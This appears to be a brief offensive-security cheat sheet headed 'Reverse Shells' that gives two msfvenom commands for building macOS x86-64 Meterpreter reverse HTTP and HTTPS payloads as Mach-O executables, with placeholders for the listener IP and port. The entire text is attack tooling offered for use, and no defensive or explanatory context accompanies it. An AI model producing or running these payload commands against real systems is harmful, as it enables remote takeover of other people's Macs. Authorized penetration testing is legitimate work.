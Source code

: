 # Reverse Shells

1. **x86-64 (64-bit) Payloads**

```
$ msfvenom -p osx/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f macho -o met-x64

$ msfvenom -p osx/x64/meterpreter_reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f macho -o met-x64
```